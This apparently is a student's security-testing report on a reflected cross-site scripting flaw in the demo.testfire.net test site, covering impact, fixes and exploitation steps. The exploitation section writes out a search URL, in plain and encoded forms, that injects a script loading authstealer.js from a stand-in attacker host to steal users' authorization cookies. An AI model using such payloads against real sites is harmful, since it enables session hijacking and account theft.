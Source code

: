 # Deliverable_Five_SecurityTesting

## Vulnerability 1: Cross Site Scripting (Reflected)
Cross-site Scripting (XSS) is an attack technique that involves echoing attacker-supplied code into a user's browser instance.


It attacks confidentiality and integrity as unauthorized user can get password from users’ session to log in and then read and write data.


Interception, modification and fabrication can exploit this vulnerability. The attacker may gain access to users cookies, session IDs, passwords, private messages etc. They can read and access the content of a page for any attacked user and therefore all the informations displayed to the user. The attacker may also compromise the content shown to the user. 


If attacker didn’t get user’s username and password from the session, then it is passive as it is eavesdropping users’ activity. If attacker get user’s username and password from the session, then it is active as the attacker log in as a different user to read and write data.


Cross-site Scripting attacks essentially compromise the trust relationship between a user and the web site, and the company will lose its reputation. If attacker get password of administrator, then it will cause data loss and unauthorized access.


Steps for development team taken to fix this vulnerability:
(1) Perform input validation and consider all potentially relevant properties, including length, type of input, the full range of acceptable values, missing or extra inputs, syntax, consistency across related fields, and conformance to business rules. Guarantee that the pages in the Web site return user inputs only after validating them for any malicious code. 
(2) Convert all non-alphanumeric characters to HTML character entities before displaying the user input in search engines and forums.
(3) Use testing tools extensively during the design phase to eliminate such XSS holes in the application before it goes into use.


The URL of the website with the described vulnerability: http://demo.testfire.net/


Steps taken to exploit the vulnerability.
Attacker observes that http://demo.testfire.net/ website contains a reflected XSS vulnerability: User can input a search term in the search box and clicks the submit button and the url will be http://demo.testfire.net/search.aspx?txtSearch=***
The attacker crafts a URL to exploit the vulnerability by making the URL http://demo.testfire.net/search.aspx?txtSearch=searchitem<script%20src="http://mallorysevilsite.com/authstealer.js"></script> which will run the js file to grab users’ information. Then attacker encodes this URL to http://demo.testfire.net/search.aspx?txtSearch=searchitem%3Cscript%2520src%3D%22http%3A%2F%2Fmallorysevilsite.com%2Fauthstealer.js%22%3E%3C%2Fscript%3E, so that user cannot immediately decipher the malicious URL.
Attacker sends the link to some unsuspecting members of this website. When user clicks on the link, it goes to the website to search, right in the middle, the script tag runs (it is invisible on the screen) and loads and runs authstealer.js (triggering the XSS attack). 
The authstealer.js program runs in user's browser, and it grabs a copy of user's Authorization Cookie and sends it to attacker's server, where attacker retrieves it.
Attacker now puts user’'s Authorization Cookie into his browser as if it were his own to log in as another user and then read and write the user’s data. Condition will be worse if attacker get administrator’s password.


A screenshot (if applicable) of the vulnerability. (The screenshot follows the steps of what OWASP ZAP does)

![v1xss1](https://cloud.githubusercontent.com/assets/16599342/20375511/973a8fb2-ac4d-11e6-804d-25dbacad5fba.png)
![v1xss2](https://cloud.githubusercontent.com/assets/16599342/20375510/973a4750-ac4d-11e6-9f00-a4c139b21b69.png)

